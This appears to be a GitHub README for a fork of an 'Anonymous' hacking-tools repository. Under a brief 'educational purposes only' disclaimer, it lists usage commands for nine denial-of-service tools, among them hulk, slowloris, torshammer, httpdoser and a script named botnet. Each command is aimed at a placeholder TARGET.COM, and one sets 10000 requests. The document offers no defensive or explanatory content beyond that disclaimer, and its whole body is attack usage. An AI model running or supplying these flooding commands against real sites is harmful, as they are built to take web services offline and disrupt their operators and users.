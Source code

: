 # Fork of [https://github.com/H1R0GH057/Anonymous](https://github.com/H1R0GH057/Anonymous)

**Note: The following commands are provided strictly for educational purposes only. It is essential to use this information responsibly, ethically, and in compliance with the law. Unauthorized use of any form of cyber-attack tools or scripts is against the law and goes against ethical guidelines. These commands are shared solely for educational discussions related to network security, cybersecurity, and ethical hacking. Always ensure that you are aware of and adhere to applicable laws and regulations.**

```python
python saphyra.py http://www.TARGET.COM

python hulk.py http://www.TARGET.COM

python akira.py http://www.TARGET.COM

python botnet.py http://www.TARGET.COM

python httpdoser.py http://www.TARGET.COM

perl slowloris.pl -dns www.TARGET.COM

python sadboys.py http://www.TARGET.COM

python sadattack.py http://www.TARGET.COM

python torshammer.py -t https://www.TARGET.COM -r 10000
```
